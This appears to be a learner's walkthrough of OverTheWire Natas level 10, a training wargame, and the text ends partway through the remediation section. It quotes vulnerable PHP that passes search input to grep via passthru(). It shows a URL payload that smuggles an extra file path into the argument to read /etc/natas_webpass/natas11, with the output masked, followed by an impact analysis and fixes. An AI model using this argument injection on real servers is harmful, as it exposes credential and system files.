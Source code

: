 # [Over The Wire (natas)] – [[Platform](http://natas10.natas.labs.overthewire.org/)] – [09/22/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [10]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser

## Login
1. Logged in with credentials:
   - **Username**: `natas10`
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-9.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas9.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content:
   ``` html
   <pre>
      <?
      $key = "";

      if(array_key_exists("needle", $_REQUEST)) {
         $key = $_REQUEST["needle"];
      }

      if($key != "") {
         if(preg_match('/[;|&]/',$key)) {
            print "Input contains an illegal character!";
         } else {
            passthru("grep -i $key dictionary.txt");
         }
      }
      ?>
   </pre>

   ```
4. Steps Taken
   1. This indicates that the command injection wouldn't be the best approach, instead maybe still exploiting the grep logic.
   2. I can make the key value into "catchall" using `.*` and it worked.

```
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
dictionary.txt:Catholicism
```
   3. I then explored including a second file to check altering the param value and swapping space with `%20`. `http://natas10.natas.labs.overthewire.org/?needle=.*%20/etc/natas_webpass/natas11&submit=Search`

```.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10/.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
/etc/natas_webpass/natas11:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
dictionary.txt:American
dictionary.txt:Americanism
dictionary.txt:Americanism's
dictionary.txt:Americanisms
dictionary.txt:Americans
dictionary.txt:April
dictionary.txt:April's
dictionary.txt:Aprils
dictionary.txt:Asian
dictionary.txt:Asians
dictionary.txt:August
dictionary.txt:August's
dictionary.txt:Augusts
dictionary.txt:B
dictionary.txt:B's
dictionary.txt:British
dictionary.txt:Britisher
dictionary.txt:Brown
dictionary.txt:Brown's
dictionary.txt:C
dictionary.txt:C's
dictionary.txt:Catholic
```

   4. This returned the flag we were looking for.

---

🔑 Why this works: 

The application filters out the characters ;, |, and & to prevent direct command injection, but it still passes user input directly into grep:

   - grep interprets regular expressions, so input like .* acts as a wildcard matching any line.

   - By including another file path (e.g., /etc/natas_webpass/natas11) in the input and replacing spaces with %20, the shell executes grep -i '.* /etc/natas_webpass/natas11' dictionary.txt.

   - grep reads both dictionary.txt and the specified file, printing any lines that match the regex. This reveals the contents of the target file (natas11 password) without needing full command injection.


---

💥 **Impact**

   - **Sensitive Data Disclosure**: Any file readable by the web server can be exposed, including password files or configuration files.

   - **Bypass of Security Filters**: Even with shell injection filtered, the application still allows reading arbitrary files.

   - **Server Information Leakage**: Knowledge of file locations and contents can aid further attacks.

---
  
🛠️ **Remediation**


   1. Avoid Passing Unsanitized Input to Shell Commands:

      - Replace passthru() with safer alternatives like file(), fopen(), or PHP regex functions (preg_grep()).

   2. Validate and Sanitize Input Strictly:

      - Only allow known, safe keywords for searching (whitelist), e.g., a list of dictionary words.

      - Reject arbitrary regex or file paths.

   3. Limit File Access:

      - Ensure the web server user cannot read sensitive files like /etc/natas_webpass/*.

      - Store passwords outside the web-accessible directory.

   4. Escape or Quote Input if Shell Execution is Required:

      - Use escapeshellarg() to safely wrap user input:
